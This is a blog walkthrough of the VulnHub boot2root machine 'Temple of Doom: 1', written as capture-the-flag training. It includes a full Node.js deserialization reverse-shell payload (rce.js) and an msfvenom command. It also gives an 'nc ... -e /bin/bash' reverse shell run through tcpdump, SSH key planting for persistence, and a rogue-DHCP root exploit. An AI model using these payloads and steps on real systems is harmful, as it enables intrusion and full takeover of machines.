 ```yaml
---
layout: post
date: 2018-08-26 18:15:47 +0000
last_modified_at: 2018-10-14 08:43:16 +0000
title: "Temple of Doom: 1 Walkthrough"
subtitle: "I'm No Indiana Jones"
category: Walkthrough
tags: [VulnHub, "Temple of Doom"]
comments: true
image:
  feature: temple-of-doom-1-walkthrough.jpg
  credit: PublicDomainPictures / Pixabay
  creditlink: https://pixabay.com/en/skull-bone-head-halloween-skeleton-18235/
---
```


This post documents the complete walkthrough of Temple of Doom: 1, a boot2root [VM][1] created by [@0katz][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## Background

You know it's a high quality VM when it's from [@Pink_P4nther](https://twitter.com/@pink_p4nther)'s homie, [@katz](https://twitter.com/@0katz).

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT    STATE SERVICE REASON         VERSION
22/tcp  open  ssh     syn-ack ttl 64 OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)
|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)
|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)
666/tcp open  http    syn-ack ttl 64 Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

`nmap` finds `22/tcp` and `666/tcp` open.

## Node.js Deserialization Bug

Let's pay `666/tcp` a visit and see what we can find there.

![50ad81b1.png](/assets/images/posts/temple-of-doom-1-walkthrough/50ad81b1.png)

Satan's temple is still under construction? Thank God :pray: I'm not going to hell any time soon.

Look what happens when I refresh the page.

![9f6cc22b.png](/assets/images/posts/temple-of-doom-1-walkthrough/9f6cc22b.png)

Look at the cookies storage.

![332df422.png](/assets/images/posts/temple-of-doom-1-walkthrough/332df422.png)

This is the `node-serialize` bug documented in [CVE-2017-5941](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941).

In any case, there's an easy way to exploit this vulnerability following the instructions [here](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/).

There's a slight difference though—I'm using the reverse shell generated by `msfvenom` instead.

```
# msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.30.128 LPORT=4444
```

Incorporate the output from `msfvenom` into `rce.js`. Remember to remove the enclosing round brackets.

<div class="filename"><span>rce.js</span></div>

```js
var rev = {
rce:function(){ var require = global.require || global.process.mainModule.constructor._load; if (!require) return; var cmd = (global.process.platform.match(/^win/i)) ? "cmd" : "/bin/sh"; var net = require("net"), cp = require("child_process"), util = require("util"), sh = cp.spawn(cmd, []); var client = this; var counter=0; function StagerRepeat(){ client.socket = net.connect(4444, "192.168.30.128", function() { client.socket.pipe(sh.stdin); if (typeof util.pump === "undefined") { sh.stdout.pipe(client.socket); sh.stderr.pipe(client.socket); } else { util.pump(sh.stdout, client.socket); util.pump(sh.stderr, client.socket); } }); socket.on("error", function(error) { counter++; if(counter<= 10){ setTimeout(function() { StagerRepeat();}, 5*1000); } else process.exit(); }); } StagerRepeat(); },
};

var serialize = require('node-serialize');
console.log(serialize.serialize(rev));
```

Run `node rce.js` to get the serialized string output.

![87473663.png](/assets/images/posts/temple-of-doom-1-walkthrough/87473663.png)

Next, add the [IIFE](https://en.wikipedia.org/wiki/Immediately-invoked_function_expression) bracket `()` at the end of the serialized string output from the previous step before passing it to `base64` for encoding.

![398e3f8d.png](/assets/images/posts/temple-of-doom-1-walkthrough/398e3f8d.png)

Send the entire `base64` string as the `profile` cookie value to `http://192.168.30.129:666`. But before you do that, you want to set up your `nc` listener.

![0cfb9b07.png](/assets/images/posts/temple-of-doom-1-walkthrough/0cfb9b07.png)

As expected, the `nc` listener caught the reverse shell.

![fe9a4b46.png](/assets/images/posts/temple-of-doom-1-walkthrough/fe9a4b46.png)

You can see that `nodeadmin` is a regular user with its home directory at `/home/nodeadmin`; we can copy the SSH public key we control to `/home/nodeadmin/.ssh/authorized_keys` and log in through SSH. We get a more superior shell this way and `Ctrl-C` doesn't kill the shell. :smirk:

![9ca6cba5.png](/assets/images/posts/temple-of-doom-1-walkthrough/9ca6cba5.png)

Here's how to do that. First, generate the SSH keypair for `nodeadmin`.

![75c59205.png](/assets/images/posts/temple-of-doom-1-walkthrough/75c59205.png)

Next, create `/home/nodeadmin/.ssh` and echo the SSH public key to `authorized_keys`.

![8932e285.png](/assets/images/posts/temple-of-doom-1-walkthrough/8932e285.png)

Now, SSH into `nodeadmin`'s account.

## Command Execution in `shadowsocks-libev`

During enumeration of `nodeadmin`'s account, I notice `/usr/local/bin/ss-manager` is running as `fireman`.

![a2034971.png](/assets/images/posts/temple-of-doom-1-walkthrough/a2034971.png)

A quick search for "ss-manager" in Google led me to EDB-ID [43006](https://www.exploit-db.com/exploits/43006/). Listing the listening ports further confirmed the command execution "feature".

![5a264f18.png](/assets/images/posts/temple-of-doom-1-walkthrough/5a264f18.png)

A more liberal `nc` is also available for use in the VM.

![96d18f6d.png](/assets/images/posts/temple-of-doom-1-walkthrough/96d18f6d.png)

Armed with this knowledge, we can execute `nc` to give us a reverse shell as `fireman`.

![1119288b.png](/assets/images/posts/temple-of-doom-1-walkthrough/1119288b.png)

On our `nc` listener, a reverse shell returns as `fireman`.

![118e46df.png](/assets/images/posts/temple-of-doom-1-walkthrough/118e46df.png)

We can repeat the same SSH trick for `fireman`.

## Dangerous `tcpdump`

During enumeration of `fireman`'s account, I found the following.

![5c72e0cc.png](/assets/images/posts/temple-of-doom-1-walkthrough/5c72e0cc.png)

`tcpdump` in particular, can execute commands and run in another user's privilege with the `-z` and `-Z` options respectively.

Let's save `nc 192.168.30.128 1234 -e /bin/bash` into `/tmp/rev.sh` and make it executable.

![2202213b.png](/assets/images/posts/temple-of-doom-1-walkthrough/2202213b.png)

And execute `tcpdump` like so.

![c1ef1436.png](/assets/images/posts/temple-of-doom-1-walkthrough/c1ef1436.png)

On the `nc` listener, a `root` shell returns.

![702d370f.png](/assets/images/posts/temple-of-doom-1-walkthrough/702d370f.png)

After repeating the SSH trick, getting the flag is trivial.

![9dfe8eb7.png](/assets/images/posts/temple-of-doom-1-walkthrough/9dfe8eb7.png)

:dancer:

## Afterthought

I wonder what's the second method for getting `root`? Could it be the exploitation of `abrt`?

I think I got it figured out. [CVE-2018-1111](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1111) anyone?

The signs were there all this time.

![c1a0b34c.png](/assets/images/posts/temple-of-doom-1-walkthrough/c1a0b34c.png)

There's a reason why `fireman` can `sudo` to execute `nmcli` and `iptables`. Even the source of the vulnerability is present.

![53cf80ea.png](/assets/images/posts/temple-of-doom-1-walkthrough/53cf80ea.png)

The proof-of-concept (PoC) code is so small it can fit inside a [tweet](https://twitter.com/Barknkilic/status/996470756283486209), with the help of `dnsmasq` of course.

Let's try it out.

In one terminal, I set up my attacking machine (192.168.30.128) as the rogue DHCP server with `dnsmasq`. In another terminal, I set up the `nc` listener to catch the reverse shell.

![6b69b4b4.png](/assets/images/posts/temple-of-doom-1-walkthrough/6b69b4b4.png)

Now, let's renew the VM's IP address with `nmcli`. My rogue DHCP server will respond to the VM's DHCP request with the injected command (`nc` to send `/bin/bash` over to me, i.e. a reverse shell) in the DHCP offer.

![42188e5c.png](/assets/images/posts/temple-of-doom-1-walkthrough/42188e5c.png)

A `root` shell returns.

![2de2fbdf.png](/assets/images/posts/temple-of-doom-1-walkthrough/2de2fbdf.png)

Below are the DHCP packets and the rogue DHCP offer captured in WireShark.

![7daab6b2.png](/assets/images/posts/temple-of-doom-1-walkthrough/7daab6b2.png)

![cb889f9c.png](/assets/images/posts/temple-of-doom-1-walkthrough/cb889f9c.png)


[1]: https://www.vulnhub.com/entry/temple-of-doom-1,243/
[2]: https://twitter.com/@0katz
[3]: https://www.vulnhub.com/
